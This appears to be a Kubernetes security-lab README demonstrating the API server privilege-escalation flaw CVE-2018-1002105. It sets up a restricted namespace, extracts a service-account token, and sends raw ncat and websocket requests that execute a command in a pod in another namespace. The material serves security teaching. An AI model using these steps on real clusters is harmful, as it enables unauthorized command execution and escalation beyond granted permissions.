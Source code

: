 # CVE-2018-1002105 - Exploiting Kubernetes API Server Vulnerability


## Demonstration Video

[![Exploiting Kubernetes API Server Vulnerability CVE-2018-1002105](https://img.youtube.com/vi/4CTK2aUXTHo/0.jpg)](https://www.youtube.com/watch?v=4CTK2aUXTHo)

source: [https://www.youtube.com/watch?v=4CTK2aUXTHo](https://www.youtube.com/watch?v=4CTK2aUXTHo)


* Check if the vulnerability exists

```bash
kubectl version
kubectl get apiservices -o 'jsonpath={range .items[?(@.spec.service.name!="")]}{.metadata.name}{"\n"}{end}'
```

## Scenario

* Create a nginx container in the `default` namespace

```bash
kubectl run --image=nginx:alpine securenginx
```

```bash
kubectl get pods
```

* create new `marketing` namespace with restricted access to only that namespace `vi marketing-setup.yaml`

```yaml
apiVersion: v1
kind: Namespace
metadata:
  name: marketing
---
apiVersion: v1
kind: ServiceAccount
metadata:
  name: marketing-user
  namespace: marketing

---
kind: Role
apiVersion: rbac.authorization.k8s.io/v1beta1
metadata:
  name: marketing-user-full-access
  namespace: marketing
rules:
- apiGroups: ["", "extensions", "apps"]
  resources: ["*"]
  verbs: ["*"]
- apiGroups: ["batch"]
  resources:
  - jobs
  - cronjobs
  verbs: ["*"]

---
kind: RoleBinding
apiVersion: rbac.authorization.k8s.io/v1beta1
metadata:
  name: marketing-user-view
  namespace: marketing
subjects:
- kind: ServiceAccount
  name: marketing-user
  namespace: marketing
roleRef:
  apiGroup: rbac.authorization.k8s.io
  kind: Role
  name: marketing-user-full-access
```

* deploy using

```bash
kubectl apply -f marketing-setup.yaml
```

* Let's deploy a pod in `marketing`

```bash
kubectl run restricted --image=madhuakula/attacker-tools -n marketing
```

* Assume that attacker has shell access to restricted pod with RBAC enabled to only `marketing` namespace. Get token for the SA

```bash
kubectl get secret marketing-user-token-xxxxx -n marketing -o "jsonpath={.data['token']}" | base64 -d
```

## Exploitation

* Get the pods in default namespace

```bash
kubectl get pods
```

```bash
ncat -C --ssl 192.168.12.10 6443
GET /api/v1/namespaces/marketing/pods/restricted-xxxxx-xxxx/exec HTTP/1.1
Authorization: Bearer $TOKEN
Host: 192.168.12.10:6443
Connection: upgrade
Upgrade: websocket
```

```bash
GET /exec/default/securenginx-xxxxx-xxxx/securenginx?command=id&input=0&output=1&tty=0 HTTP/1.1
Upgrade: websocket
Connection: Upgrade
Host: 192.168.12.10:6443
Origin: https://192.168.12.10:6443
Sec-WebSocket-Key: $TOKEN
Sec-WebSocket-Version: 13
sec-websocket-protocol: v4.channel.k8s.io
```

### References

* [https://blog.appsecco.com/analysing-and-exploiting-kubernetes-apiserver-vulnerability-cve-2018-1002105-3150d97b24bb](https://blog.appsecco.com/analysing-and-exploiting-kubernetes-apiserver-vulnerability-cve-2018-1002105-3150d97b24bb)

* [https://github.com/kubernetes/kubernetes/issues/71411](https://github.com/kubernetes/kubernetes/issues/71411)